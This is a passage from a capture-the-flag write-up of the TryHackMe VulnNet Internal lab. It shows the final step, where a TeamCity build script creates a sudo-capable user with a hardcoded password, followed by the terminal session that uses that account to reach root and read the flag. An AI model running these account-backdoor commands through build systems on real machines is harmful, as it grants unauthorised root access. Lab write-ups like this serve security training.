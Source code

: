 ![TeamCity build script 5](/assets/img/tryhackme/Vulnnetinternal/thm_vulnnetinternal_8.jpg)

I used the following commands to create a new user and add the user to the sudoers file.
```bash
username="superuser"
password="superuser123"
sudo useradd -m -s /bin/bash $username
echo "$username:$password" | sudo chpasswd
sudo adduser $username sudo
```

![TeamCity build script 6](/assets/img/tryhackme/Vulnnetinternal/thm_vulnnetinternal_9.jpg)

![TeamCity build script 7](/assets/img/tryhackme/Vulnnetinternal/thm_vulnnetinternal_10.jpg)

After my script was executed successfully, I checked if the user had been added to the `passwd` file. Great! Since my new user had the same permissions as root, I was able to change to my user and then to root. Afterwards, I was able to retrieve the root flag:
```bash
/TeamCity/logs$ cat /etc/passwd
  [...]
  superuser:x:1001:1001::/home/superuser:/bin/bash
sys-internal@vulnnet-internal:/TeamCity/logs$ su superuser
  Password:
superuser@vulnnet-internal:/TeamCity/logs$ sudo su
root@vulnnet-internal:/TeamCity/logs# cd /root
root@vulnnet-internal:~# cat root.txt
  THM{e[removed]d}
```

solved! :)